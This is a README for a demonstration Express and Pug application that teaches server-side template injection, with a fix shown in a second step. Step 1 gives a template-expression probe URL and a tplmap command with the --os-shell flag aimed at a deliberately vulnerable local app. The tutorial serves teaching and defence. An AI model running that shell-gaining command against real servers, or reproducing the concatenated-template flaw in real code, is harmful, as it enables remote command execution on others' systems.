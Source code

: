 This application is a demonstration prototype just to show how to perform SSTI (Server side templating injection) attack. This application use Express and Pug as templating engine. This tutorial is based on https://appsec.amanvir.io/exploring-template-injection

# Step 0

* Install nodejs

* Install express and pug

```console
$ npm install
```

* Install tplmap

```console
$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ virtualenv --python=/usr/bin/python2.7 venv
$ source ./venv/bin/activate
$ pip install -r requirements.txt
```

# Step 1 

* Select the branch (optional)

```console
$ git checkout step1
```

* Start application

```console
$ node app.js
```

* Open http://localhost:3000/?name=bob

* Open http://localhost:3000/?name=%23%7B7*7%7D to test if your application is expose to SSTI (name={7*7})

* Run SSTI attack with [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
(venv)$ ./tplmap.py --engine pug --os-shell -u http://localhost:3000/?name=bob
```

In this example, the template is built by concatenation ("template literals" introduce in ES6).

# Step 2

The right way is to define a template with escaped data [interpolation](https://pugjs.org/language/interpolation.html).

* Select the branch

```console
$ git checkout step2
```

* Start application

```console
$ node app.js
```

* Run tplmap again

Now, the "name" parameter appear to be not injectable.
